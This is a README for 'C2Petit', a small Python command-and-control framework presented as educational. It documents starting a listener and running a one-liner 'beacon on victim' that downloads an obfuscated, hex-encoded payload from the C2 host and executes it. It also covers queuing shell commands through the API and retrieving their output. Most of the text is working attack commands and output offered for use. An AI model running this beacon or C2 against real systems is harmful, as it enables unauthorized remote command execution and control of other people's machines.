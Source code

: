 #######
C2Petit
#######

| C'est tout petit ! 🐣
| Vanilla asyncio based C2 for systems that support python, for educational & demonstration purpose.

|

.. code-block:: bash

    pipx install git+https://github.com/charlesgargasson/c2petit.git@main
    # pipx uninstall c2petit
    # pipx upgrade c2petit

    # DEV install
    # pipx install /opt/git/c2petit --editable

|

*****
Start
*****

| Start C2 server
| It will start both internal API server "127.0.0.15:7641" and external listener "0.0.0.0:8888"

.. code-block:: bash

    c2p &

    [...] ✨​ API server 127.0.0.15:7641
    [...] 🚀​ New listener 0.0.0.0:8888

|

******
Beacon
******

| Start the beacon on victim

.. code-block:: bash

    python3 -c 'url="localhost:8888";import http.client as h;c=h.HTTPConnection(url);c.request("GET","/");r=c.getresponse();exec(bytes.fromhex(r.read()[::-1].decode())) if r.status==200 else print("failed");_=C(url)'

|

| You will notice a new beacon on c2p side

.. code-block::

    [...] 🌱 Serving new beacon     dc87baf418404777a3a386af33bdf90e

|

****
Task
****

| Use API to add tasks, the only supported action for now is "shell".

.. code-block:: json

    {
        "tasks":[
            {
                "info":{
                    "name": "Run system command sleep"
                },
                "task":{
                    "action": "shell",
                    "cmd": "sleep 10"
                }
            },
            {
                "info":{
                    "name": "Echo text"
                },
                "task":{
                    "action": "shell",
                    "cmd": "echo Hello world !"
                }
            }
        ]
    }

|

| You can use curl to send the task to API

.. code-block:: bash

    BEACON='dc87baf418404777a3a386af33bdf90e'
    curl "127.0.0.15:7641/beacon/update/$BEACON" -H "Content-Type: application/json" --data @update.json
    # 200 {"msg": "Updated"}

|

| You will notice new tasks for beacon on c2p side

.. code-block::

    [...] 📦 New task 'Run system command sleep'               dc87baf418404777a3a386af33bdf90e : 3e118073f93f40468c63ff51013d29d5
    [...] 📦 New task 'Echo text'                              dc87baf418404777a3a386af33bdf90e : 223c52bb28b7460ca774b47987377141

|

| The beacon then sync with c2p and consume all available tasks.

.. code-block::

    [...] 📤 Task delivered 'Run system command sleep'         dc87baf418404777a3a386af33bdf90e : 3e118073f93f40468c63ff51013d29d5
    [...] 📤 Task delivered 'Echo text'                        dc87baf418404777a3a386af33bdf90e : 223c52bb28b7460ca774b47987377141

|

| Each task is asynchronously performed without specific order.
| The beacon wait for the next c2p sync to send results

.. code-block::

    [...] ✅ Task completed 'Echo text'                        dc87baf418404777a3a386af33bdf90e : 43757d15962c4f0eb1bb0d91d9ac2d3f
    [...] ✅ Task completed 'Run system command sleep'         dc87baf418404777a3a386af33bdf90e : 9d049a496f6d4dc1b0662dac94ece744

|

| You can retrieve results from the task object using API

.. code-block::

    BEACON='dc87baf418404777a3a386af33bdf90e'
    TASK='43757d15962c4f0eb1bb0d91d9ac2d3f'
    curl -sS "127.0.0.15:7641/beacon/task/$BEACON/$TASK"|jq

    {
        "info": {
            "name": "Echo text",
            "state": "completed",
            "created": 1753883878.0329168,
            "result": {
                "stdout": "Hello world !\n",
                "stderr": "",
                "completed": 1753883880.642631,
                "returncode": 0
            }
        },
        "task": {
            "action": "shell",
            "cmd": "echo Hello world !"
        }
    }

|

.. code-block::

    curl -sS "127.0.0.15:7641/beacon/task/$BEACON/$TASK"|jq -r .info.result.stdout,.info.result.stderr
    Hello world !

|

****
Stop
****

| Use stop action to stop beacon

.. code-block:: bash

    BEACON='5c4cdcd76029415585b001bab31b947a'
    curl "127.0.0.15:7641/beacon/update/$BEACON" -H "Content-Type: application/json" --data '{"tasks":[{"task":{"action":"stop"},"info":{"name":"STOP"}}]}'

|

| Then use stop endpoint to stop API

.. code-block:: bash

    curl -sS "127.0.0.15:7641/stop" -X POST

|